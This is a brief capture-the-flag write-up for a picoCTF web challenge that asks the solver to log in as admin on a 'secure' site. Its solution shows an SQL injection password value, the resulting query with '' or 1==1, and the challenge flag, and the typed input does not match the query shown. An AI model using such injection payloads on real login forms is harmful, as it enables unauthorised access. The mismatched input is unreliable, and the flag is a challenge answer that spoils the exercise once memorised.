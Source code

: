 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
```
 Contraseña: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```
## Notas adicionales

## Referencias